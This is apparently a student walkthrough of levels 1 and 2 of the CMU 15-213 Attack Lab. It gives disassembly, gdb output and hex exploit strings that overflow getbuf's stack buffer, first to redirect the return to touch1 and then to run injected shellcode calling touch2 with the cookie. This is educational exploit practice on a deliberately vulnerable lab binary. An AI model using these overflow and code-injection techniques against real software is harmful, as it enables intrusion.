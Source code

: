 > NOTE: Use -q to unlink the server

# Level 1

As is mentioned, there's function *getbuf* called:

``` c
void test(){
    int val;
    val = getbuf();
    printf("No exploit. Getbuf returned 0x%x\n", val)
}
```

Here's the assembly code of getbuf:

``` assembly
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq   
  4017be:	90                   	nop
  4017bf:	90                   	nop
```

+ The function will get *0x28* chars, then *retq*

+ As is required, we should run *touch1* after execution:

  > Your task is to get CTARGET to execute the code for touch1 when getbuf executes its return statement, rather than returning to test. Note that your exploit string may also corrupt parts of the stack not directly related to this stage, but this will not cause a problem, since touch1 causes the program to exit directly.

+ As mentioned, we use **buffer overflow**

+ Input 0x28 (40) chars (no matter how they are, we don't care about that), then input the address of *touch1* (*00000000004017c0*)

+ The address of *touch1* should be input increasing, as the stack's address is decreasing

``` 
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```

Then, we use *HEX2RAW* to change it:

``` bash
./hex2raw < level1.txt > raw_level1.txt
```

It's the answer of level 1

``` bash
./ctarget -q < raw_level1.txt
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00 00 00 00 00
```

# Level 2

Similar as **Level 1**, we need to run *touch2*

``` c
void touch2(unsigned val){
    vlevel = 2;
    if(val == cookie){
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    }else{
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```

``` assembly
00000000004017ec <touch2>:
  4017ec:	48 83 ec 08          	sub    $0x8,%rsp
  4017f0:	89 fa                	mov    %edi,%edx
  4017f2:	c7 05 e0 2c 20 00 02 	movl   $0x2,0x202ce0(%rip)        # 6044dc <vlevel>
  4017f9:	00 00 00 
  4017fc:	3b 3d e2 2c 20 00    	cmp    0x202ce2(%rip),%edi        # 6044e4 <cookie>
  401802:	75 20                	jne    401824 <touch2+0x38>
  401804:	be e8 30 40 00       	mov    $0x4030e8,%esi
  401809:	bf 01 00 00 00       	mov    $0x1,%edi
  40180e:	b8 00 00 00 00       	mov    $0x0,%eax
  401813:	e8 d8 f5 ff ff       	callq  400df0 <__printf_chk@plt>
  401818:	bf 02 00 00 00       	mov    $0x2,%edi
  40181d:	e8 6b 04 00 00       	callq  401c8d <validate>
  401822:	eb 1e                	jmp    401842 <touch2+0x56>
  401824:	be 10 31 40 00       	mov    $0x403110,%esi
  401829:	bf 01 00 00 00       	mov    $0x1,%edi
  40182e:	b8 00 00 00 00       	mov    $0x0,%eax
  401833:	e8 b8 f5 ff ff       	callq  400df0 <__printf_chk@plt>
  401838:	bf 02 00 00 00       	mov    $0x2,%edi
  40183d:	e8 0d 05 00 00       	callq  401d4f <fail>
  401842:	bf 00 00 00 00       	mov    $0x0,%edi
  401847:	e8 f4 f5 ff ff       	callq  400e40 <exit@plt>
```

Using *gdb* see the address of *rsp* is: 

``` bash
(gdb) info registers rsp
rsp            0x5561dca0          0x5561dca0
```

As the string length is *0x28*, the address of the string is *0x5561dca0 - 0x28 = 0x5561dc78* (as the stack address grow decreasing)

Here *val* is saved in *$edi*, and we want it to be equal as *cookie*. From the output of level1, we could get that *cookie* equals to *0x59b997fa*, thus the assembly we want to run is like:

``` assembly
pushq $0x4017ec # push the address of touch 2
mov $0x59b997fa, %edi # save cookie into edi
retq # return
```

Then, we can use *gcc -c* to compile, and use *objdump* to see the script:

``` assembly
0000000000000000 <.text>:
   0:	68 ec 17 40 00       	pushq  $0x4017ec
   5:	bf fa 97 b9 59       	mov    $0x59b997fa,%edi
   a:	c3                   	retq   
```

Next, we fill him with *00* until its length is *0x28*. At the end, we write the starting address of the string (as we calculated before). Thus, the answer is:

``` 
68 ec 17 40 00 bf fa 97 b9 59 c3
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```

``` bash
./ctarget -q < raw_level2.txt
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:2:68 EC 17 40 00 BF FA 97 B9 59 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00
```

